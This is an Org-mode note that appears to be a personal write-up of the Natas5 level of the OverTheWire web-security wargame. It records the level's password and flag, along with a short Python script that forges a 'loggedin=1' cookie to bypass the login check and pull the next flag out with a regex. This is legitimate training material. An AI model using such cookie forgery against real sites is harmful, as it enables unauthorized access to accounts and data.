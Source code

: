 :PROPERTIES:
:ID:       4d555387-119c-40cc-8483-819b38b1ef08
:END:
#+title: Natas5
* Previous
[[id:d3e3a109-5359-41a3-8199-69555a926ca6][Natas4]]

* Password
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

* Flag
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

* Notes

We need to be "logged in".
This is checked with cookie `loggedin` field set to 1.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

username = "natas5"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username)

jar = requests.cookies.RequestsCookieJar()
jar.set("loggedin", "1")

session = requests.Session()
response = session.get(url, auth=(username, password), cookies=jar)

content = response.text
# print(content)

p = re.findall("([a-zA-Z0-9]{32})", content)

if p and p[0] == password:
    p.pop(0)

print(p[0])
#+end_src

#+RESULTS:
: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

* Next
[[id:340c47e7-79cb-4c63-b606-2d80357a56cc][Natas6]]
